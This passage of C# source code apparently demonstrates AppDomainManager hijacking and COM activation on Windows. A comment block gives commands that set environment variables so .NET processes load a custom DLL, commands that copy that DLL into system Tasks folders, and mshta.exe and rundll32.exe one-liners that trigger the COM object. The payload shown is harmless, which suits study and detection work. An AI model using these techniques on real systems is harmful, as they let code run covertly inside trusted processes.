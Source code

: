 ```
		// You have more control here than I am demonstrating. For example, you can set ApplicationBase, 
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll

Simple One-Liner Triggers.
mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();



*/


namespace MyDLL
{
	 
	 [ComVisible(true)]
	 [Guid("31D2B969-7608-426E-9D8E-A09FC9A5ACDC")]
	 [ClassInterface(ClassInterfaceType.None)]
	 [ProgId("MyDLL.Operations")]
	 public class Operations
	 {
		 
		 public Operations()
		 {
			 Console.WriteLine("So It Begins");
		 }
		 
		 [ComVisible(true)]
		 public string getValue1(string sParameter)
		 {
			 switch (sParameter)
			 {
				 case "a":
				 return "A was chosen";

				 case "b":
				 return "B was chosen";

				 case "c":
				 return "C was chosen";

				 default:
				 return "Other";
			}
		}
		 
		 [ComVisible(true)]
		 public string getValue2()
		 {
			return "From VBS String Function";
```